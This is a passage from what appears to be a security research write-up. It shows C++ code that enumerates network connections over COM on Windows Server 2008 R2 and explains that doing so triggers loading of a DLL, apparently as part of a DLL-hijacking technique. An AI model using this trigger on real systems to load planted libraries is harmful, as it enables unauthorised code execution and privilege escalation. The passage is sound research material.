 ```cpp
        {
            IEnumNetConnection* pEnumConnection = 0;
            hResult = pConnectionManager->EnumConnections(NCME_DEFAULT, &pEnumConnection);
            if (SUCCEEDED(hResult))
            {
                INetConnection* pConnection = 0;
                ULONG count;
                while (pEnumConnection->Next(1, &pConnection, &count) == S_OK)
                {
                    NETCON_PROPERTIES* pConnectionProperties = 0;
                    hResult = pConnection->GetProperties(&pConnectionProperties);
                    if (SUCCEEDED(hResult))
                    {
                        wprintf(L"Interface: %ls\n", pConnectionProperties->pszwName);
                        NcFreeNetconProperties(pConnectionProperties);
                    }
                    else
                        wprintf(L"[-] INetConnection::GetProperties() failed. Error code = 0x%08X (%ls)\n", hResult, _com_error(hResult).ErrorMessage());
                    pConnection->Release();
                }
                pEnumConnection->Release();
            }
            else
                wprintf(L"[-] IEnumNetConnection::EnumConnections() failed. Error code = 0x%08X (%ls)\n", hResult, _com_error(hResult).ErrorMessage());
            pConnectionManager->Release();
        }
        else
            wprintf(L"[-] CoCreateInstance() failed. Error code = 0x%08X (%ls)\n", hResult, _com_error(hResult).ErrorMessage());
        CoUninitialize();
    }
    else
        wprintf(L"[-] CoInitializeEx() failed. Error code = 0x%08X (%ls)\n", hResult, _com_error(hResult).ErrorMessage());
    
    FreeLibrary(hModule);
    wprintf(L"Done\n");
}
```

The below screenshot shows the final result on Windows Server 2008 R2. As we can see, we can trigger the DLL loading simply by enumerating the Ethernet interfaces of the machine. No need to say that the machine must have at least one Ethernet interface, otherwise this technique doesn't work. :smile:
